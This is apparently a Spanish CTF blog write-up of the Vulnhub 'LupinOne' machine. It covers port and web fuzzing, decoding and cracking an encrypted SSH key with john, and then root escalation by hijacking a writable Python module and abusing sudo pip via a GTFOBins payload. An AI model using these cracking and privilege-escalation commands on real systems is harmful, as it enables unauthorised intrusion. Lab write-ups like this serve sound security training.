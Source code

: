 ```yaml
---
title: Vulnhub - LupinOne
author: cotes
date: 2023-09-06 17:51:00 +0800
categories: [Writeup, Vulnhub, Easy]
tags: [Linux, 'LFI to RCE', 'Path Hijacking']
math: true
mermaid: true
image:
  path: /assets/images/Vulnhub/Easy/LupinOne/logo.jpg
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: LupinOne Machine Logo
---
```


Máquina Linux de nivel **Easy** de Vulnhub.

Técnicas usadas: **LFI to RCE, Path Hijacking**

### Fase de Reconocimiento 🧣

Identificamos la dirección IP de la **`Máquina LupinOne`**

```bash
root@kali> arp-scan -I eth0 --local --ignoredups

<SNIP>
192.168.100.24  08:00:27:56:a5:5c       PCS Systemtechnik GmbH
```

a. Enumeramos los puertos que están abiertos.

* **`nmap -p- -sS -Pn -n <IP> -oG puertos`**

  ![](/assets/images/Vulnhub/Easy/LupinOne/01-ports.png)

b. Vemos las versiones de los servicios que se están ejecutando en los puertos.

* **`nmap -p<Ports> -sCV <IP> -oN versiones`**

  ![](/assets/images/Vulnhub/Easy/LupinOne/02-versions.png)

c. Antes de fuzzear con herramientas como **wfuzz, gobuster o dirbuster** usaremos el script **http-enum** de nmap

```bash
root@kali> nmap -p80 --script http-enum <IP>

PORT   STATE SERVICE
80/tcp open  http
| http-enum: 
|   /robots.txt: Robots file
|   /image/: Potentially interesting directory w/ listing on 'apache/2.4.48 (debian)'
|_  /manual/: Potentially interesting folder
```

* En el fichero **robots.txt** vemos esto:

  ```bash
  User-agent: *
  Disallow: /~myfiles
  ```

* Si visitamos este directorio veremos un Error 404 por lo cual fuzzearemos por otro posible directorio.

  ```bash
  root@kali> wfuzz -c -t 100 --hc=404 -w /usr/share/seclists/Discovery/Web-Content/common.txt 'http://<IP>/~FUZZ/'

  000003667:   200        5 L      54 W       331 Ch      "secret" 
  ```

d. Vemos el contenido del fichero **`secret`**

```txt
Hello Friend, Im happy that you found my secret directory, I created like this to share with you my create ssh private key file,
Its hided somewhere here, so that hackers dont find it and crack my passphrase with fasttrack.
I'm smart I know that.
Any problem let me know
Your best friend icex64
```

* Fuzzeamos por múltiples extensiones de archivos.

  ```bash
  root@kali> wfuzz -c -t 100 --hc=404 --hh=279 -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -z list,txt-php-zip 'http://<IP>/~secret/.FUZZ.FUZ2Z'

  000068287:   200        1 L      1 W        4689 Ch     "mysecret"
  ```

e. El contenido de este archivo **http://<IP>/~secret/.mysecret.txt** lo pasamos a [Cyberchef](https://gchq.github.io/CyberChef)

![](/assets/images/Vulnhub/Easy/LupinOne/03-cyberchef.png)

* Al pasar el contenido por **Base58** obtenemos una clave id_rsa encriptada.

* Extraemos el hash de la clave **id_rsa** y lo crackeamos con este [diccionario](https://github.com/drtychai/wordlists/blob/master/fasttrack.txt) (Esto nos dan como pista en **/~secret/**)

  ```bash
  atacante@kali> chmod 600 id_rsa
  atacante@kali> ssh2john id_rsa > hash
  atacante@kali> john hash -w=fasttrack.txt

  P@55w0rd!
  ```

f. Nos autenticamos en el servicio **`ssh`**

```bash
atacante@kali> ssh icex64@192.168.100.24 -i id_rsa

icex64@LupinOne:~$ hostname -I
192.168.100.24 
```

### Escalada de Privilegios 💹

a. Listamos privilegios presentes en el archivo sudoers

```bash
icex64@LupinOne:~$ sudo -l

  (arsene) NOPASSWD: /usr/bin/python3.9 /home/arsene/heist.py
```

* **`/home/arsene/heist.py`**

  ```py
  import webbrowser

  print ("Its not yet ready to get in action")

  webbrowser.open("https://empirecybersecurity.co.mz")
  ```

b. Como no tenemos la capacidad de crear ficheros en el directorio **`/home/arsene`**, vemos si somos capaces de escribir en el fichero del módulo **`webbrowser`**

```bash
icex64@LupinOne:~$ find / -writable 2>/dev/null | grep -vE "^/proc|^/sys"

<SNIP>
/usr/lib/python3.9/webbrowser.py
<SNIP>
```

* Cambiamos el contenido de este fichero por 

  ```bash
  import os
  os.system("bash")
  ```

  > Esto con el fin de que al momento de ejecutar el script **heist.py**, el comando sea ejecutado por el usuario **`arsene`** y esto nos daría una bash.


* Ejecutamos el script

  ```bash
  icex64@LupinOne:~$ sudo -u arsene /usr/bin/python3.9 /home/arsene/heist.py
  arsene@LupinOne:/home/icex64$
  ```

* Listamos privilegios que tengamos con este usuario

  ```bash
  arsene@LupinOne:/home/icex64$ sudo -l

    (root) NOPASSWD: /usr/bin/pip
  ```

c. Escalamos privilegios con [Gtfobins - pip](https://gtfobins.github.io/gtfobins/pip/#sudo)

```bash
arsene@LupinOne:/home/icex64$ TF=$(mktemp -d)
arsene@LupinOne:/home/icex64$ echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
arsene@LupinOne:/home/icex64$ sudo pip install $TF
Processing /tmp/tmp.bD4rZoIdVG
# whoami
root
```